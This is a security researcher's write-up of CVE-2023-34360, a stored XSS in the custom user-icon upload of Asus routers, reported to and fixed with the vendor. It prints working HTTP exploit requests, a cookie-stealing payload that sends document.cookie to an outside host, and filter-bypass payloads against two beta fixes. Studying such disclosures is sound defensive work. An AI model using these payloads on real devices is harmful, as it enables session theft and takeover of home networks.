








## CVE-2023-34360 - Stored XSS in Custom UserIcons

Whenever I get really bored I just turn back to my little Asus routers and say "buggo create-o" and invariably I find some sort of issue. Today I'm writing about some stored XSS I came across, receiving CVE-2023-34360

I stumbled across some functionality recently that I didn't realize *was* functionality-- after clicking around a bit I clicked one of the little device icons and was surprised to find a file upload form:



CLicking "Change" gives us a small list of default icons, but at the bottom we see a '+' button to upload something custom. File uploads aren't uncommon, but it's something I hadn't encountered yet in these devices, so I was immediately curious. Looking at the actual file upload I was a bit surprised-- I expected a classic multi-part form for the file upload, and thought perhaps I could do something cheeky like perform a dir traversal and/or upload something like a web shell, that would be cool-- not quite:



the `custom_usericon` POST parameter contains the image, but I didn't expect the payload:

`custom_usericon=D45D64B26F44%3Edata%3Aimage%2Fpng%3Bbase64%2CiVBOR`

It's pretty simple, each upload is translated into a base64 string in a data URI, and assigned to a device's MAC address:
`deviceMAC>data:image/png;base64,iVBOR[...]`

That value is then written to the DOM when the icon list is rendered.

Going from discovery to XSS was pretty simple-- the PoC below is a classic XSS:

```
POST /start_apply2.htm HTTP/1.1
Host: 192.168.1.2
Content-Length: 1034
Origin: http://192.168.1.2
Content-Type: application/x-www-form-urlencoded
[SNIPPED]
Cookie: XXXX

current_page=&next_page=&modified=0&flag=background&action_mode=apply&action_script=saveNvram&action_wait=1&custom_clientlist=[SNIPPED]&custom_usericon=000C29CB5B40%3E'-alert(document.cookie)-'
```

When the "View List" button on the home page was clicked (viewing the network map), the payload is written to the page and executed :) 

The app makes individual calls for the `ajax_uploadicon.asp?clientmac=MAC` endpoint for each device. The request above returns the following:

```
HTTP/1.0 200 OK
Server: httpd/2.0
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
Date: Sat, 29 Apr 2023 20:49:14 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: text/html
Connection: close

upload_icon = 'AAAA'-alert(document.cookie)-'';
upload_icon_count="4";
upload_icon_list="F02F74D84828.log>000C29CB5B40.log>90E2BA1DE16D.log>f02f74d84828.ico>";
```

Pretty simple. But having some more fun, we can include a classic cookie-theft payload:

```
POST /start_apply2.htm HTTP/1.1
Host: 192.168.1.2
Content-Length: 1034
Origin: http://192.168.1.2
Content-Type: application/x-www-form-urlencoded
[SNIPPED]
Cookie: XXXX

current_page=&next_page=&modified=0&flag=background&action_mode=apply&action_script=saveNvram&action_wait=1&custom_clientlist=[SNIPPED]&custom_usericon=000C29CB5B40%3EAAAA'%0adocument.location="https://localh0st.run/?"%2bdocument.cookie+//';
```

And the response:

```
HTTP/1.0 200 OK
Server: httpd/2.0
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
Date: Sat, 29 Apr 2023 20:49:14 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: text/html
Connection: close

upload_icon = 'AAAA'
document.location="https://localh0st.run"+document.cookie //';
upload_icon_count="4";
upload_icon_list="F02F74D84828.log>000C29CB5B40.log>90E2BA1DE16D.log>f02f74d84828.ico>";
```

Then, we see a request made out to localh0st.run :)

`https://localh0st.run/?hwaddr=3C:7C:3F:53:C1:00; apps_last=; clickedItem_tab=0`

In this case the cookies are actually pretty lame, but it's fun nonetheless.

PoC - Malicious UserIcon:



Response:



Rendered:



### Filter Fun

So after reporting this to Asus, they provided a beta firmware to test and after a few tries I had another working PoC:

`custom_usericon=90E2BA1DE16D%3E\"%3b+onerror=alert('XSS');//`

This time, the payload required a backslash-quote `\"` to escape the `src="x"` and shove the payload after the `x"`. 

Payload:


Executed:


I sent the information to Asus and they provided a second beta firmware to test.

This time popping it proved more challenging. I wasn't able to sneak any payloads through, but after a few attempts I was noticing discrepancies in the fix-- it seemed incomplete but I couldn't prove it yet. I eventually found the filter they created in some JS, check it out below:

```JS
function getUploadIcon(clientMac) {
var result = "NoIcon";
$.ajax({
url: '/appGet.cgi?hook=get_upload_icon()&clientmac=' + clientMac,
dataType: 'json',
async: false,
success: function(response){
var base64_image = htmlEnDeCode.htmlEncode(response.get_upload_icon);
result = (isImageBase64(base64_image)) ? base64_image : "NoIcon";
}
});
return result;
function isImageBase64(str){
if(str.substr(0,11) == "data:image/"){
var base64_str = str.split(";")[1];
if(base64_str != undefined){
var img_str = base64_str.substr(7);//filter base64,
var len = img_str.length;
if(!len || len % 4 != 0 || /[^A-Z0-9+\/=]/i.test(img_str)){
return false;
}
var firstPaddingChar = img_str.indexOf('=');
return (firstPaddingChar === -1 || firstPaddingChar === len - 1 || (firstPaddingChar === len - 2 && img_str[len - 1] === '='));
}
}
return false;
}
```
`getUploadIcon` calls `isImageBase64(base64_image)`. Let's break it down:

1. `if(str.substr(0,11) == "data:image/"){`
    - Straight-forward, this line checks to see if the first 12 characters of the base64 string match `data:image/`. If they don't, we're moved to `return false;`. If it does, we move onto the next line
2. `var base64_str = str.split(";")[1];`
    - Now, the string is split on the ';' delimeter and the latter half is stored as `base64_str`
3. ```
    if(base64_str != undefined){
    var img_str = base64_str.substr(7);
    ```
    - The rest of the function is responsible for validating the Base64 itself is valid. It first checks that the string is not null, then grabs the actual base64 string with `base64_str.substr(7)` (remember it's sent as `base64,AAAA`)


So while this looks pretty thorough, turns out we can still sneak some XSS through. What would happen if we sent a payload with an extra `;` character?

We get a win with the following payload: `data:image/%3bbase64\%22%20onerror=alert(1);\%22,QUFBQUFBQUFBQUFBQUFBPQ==`

If we compare this to the filter, we find that the payload will be checked for a match on the first 12 characters, `data:image/`.

Next, the string is split on the `;`, which means we have the following array:
1. `data:image/%3bbase64\%22%20onerror=alert(1)`
2. `\%22,QUFBQUFBQUFBQUFBQUFBPQ==`

Now, comparing the final check against array element 2 above (it's actually 1):
```
if(base64_str != undefined){
var img_str = base64_str.substr(7);
```

We'll pass the first `if` as the string isn't null. We'll then have the string `\%22,QUFBQUFBQUFBQUFBQUFBPQ==` validated after `var img_str = base64_str.substr(7)` substr split-- so `img_str` actually becomes something like `QUFBQUFBQUFBQUFBPQ==`, which equals `AAAAAAAAAAAA=`.

Finally, this hits the DOM and is rendered as:

``

Dope! When the DOM is rendered by the network map pages, it executes as stored-DOM based XSS.



### Final Thoughts

While this is just another XSS, I had a lot of fun with it. It's not overly complex, but could've been missed pretty easily had I not put just a little more time into it-- I almost sent an email saying it seemed like it was remediated, but decided I may as well take a closer look at the filter. Glad I did!